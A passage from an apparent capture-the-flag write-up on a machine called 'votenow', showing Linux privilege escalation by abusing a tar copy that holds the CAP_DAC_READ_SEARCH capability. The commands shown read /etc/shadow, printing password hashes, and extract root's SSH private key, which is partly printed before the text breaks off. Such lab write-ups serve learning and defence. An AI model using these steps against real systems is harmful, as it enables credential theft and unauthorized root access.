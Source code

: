 ```
/usr/bin/tarS = cap_dac_read_search+ep
```

The **CAP_DAC_READ_SEARCH+ep** capability allows a process to ignore discretionary access restrictions when reading files and accessing directories. Knowing this what we can try is to make a compressed directory of /etc/shadow to test if it works:

```
[admin@votenow shm]$ tarS -cvf shadow.tar /etc/shadow
tarS: Removing leading `/' from member names
/etc/shadow
[admin@votenow shm]$ ls
shadow.tar
[admin@votenow shm]$ tar -xf shadow.tar 
[admin@votenow shm]$ cd etc/       
[admin@votenow etc]$ cat shadow 
cat: shadow: Permission denied
[admin@votenow etc]$ chmod 770 shadow 
[admin@votenow etc]$ cat shadow 
root:$6$BvtXLMHn$zoYCSCRbdnaUOb4u3su6of9DDUXeUEe05OOiPIQ5AWo6AB3FWRr/RC3PQ4z.ryqn6o5xS9g4JTKHYI4ek9y541:18440:0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
systemd-network:!!:18440::::::
dbus:!!:18440::::::
polkitd:!!:18440::::::
sshd:!!:18440::::::
postfix:!!:18440::::::
chrony:!!:18440::::::
apache:!!:18440::::::
admin:$6$QeT4IOER$tHg/DAvc5NegomFKFryL5Xe7Od05z7CkYYs9sdRQaQVnJYvsXm2tQljaUhgXVMG8jXaChhhmny6MhD2K5jFXF/:18440:0:99999:7:::
mysql:!!:18440::::::
[admin@votenow etc]$ 
```
And it worked! Now what we are going to do in order to gain access as user root, is the following:

```
[admin@votenow etc]$ tarS -cvf ssh.tar /root/.ssh/id_rsa
tarS: Removing leading `/' from member names
/root/.ssh/id_rsa
[admin@votenow etc]$ tarS -xf ssh.tar 
[admin@votenow etc]$ cd root/.ssh/
[admin@votenow .ssh]$ cat id_rsa 
-----BEGIN RSA PRIVATE KEY-----
MIIJKQIBAAKCAgEAqCxgVFD0v4dmf8XgX5fKVeZ7V5LcY8hdKTDebvjCtrASgFnQ
hr86LOOdQ1kBaAsrayIZeZu5zd4Vr5CAHrR5OBosvkaURNhxxXyO/Gxf0e5zFDkg
lZD4VKzTcHg0aENL8aIaUAka38PVgFjgrJjuh5wUgjavKA7wXGllRTvrEKMBCVs5
QE4bbaENShTFLd5RBxkhH+Ph9PKgO8+8nkjtn4Rnz1dtqUlvoSO7CdSlQUeMdE8f
p8mkn9IRENfqHL2bIsZvdi4Uz90aeZKBztS7SnxHhiW7V8OKOnoK1iYSokNRJmcZ
wGA1pkW9HJF3PHjNEJnaDRsoHcRwgp/aDr+0l2SgrCj9hahF/xm0fZzTMDcs3Bjs
iiHXkksH/lO/4yJO4kOCiEaj9izpDWiefMLTSh1GjqZoVVpI9fu/JJnTf/oJV3em
6R5TDafIIDga/jxhDEnIaL/LQkw/7DXNB9GwEJQ6LfnPmIhR30V+zSw1YIot6PY9
zh9347jSDVqrr6Sm38fDZ3UdmWmi3/e4zrJOJGn//2NLCgNc8z1/CcRe2yr8uosf
wBgM04HN52PGN3IFzpVYpwYEHwUhb/9S8ZuMvIKxX5ycrmt/r2WlgYYH2gEWk0Y5
```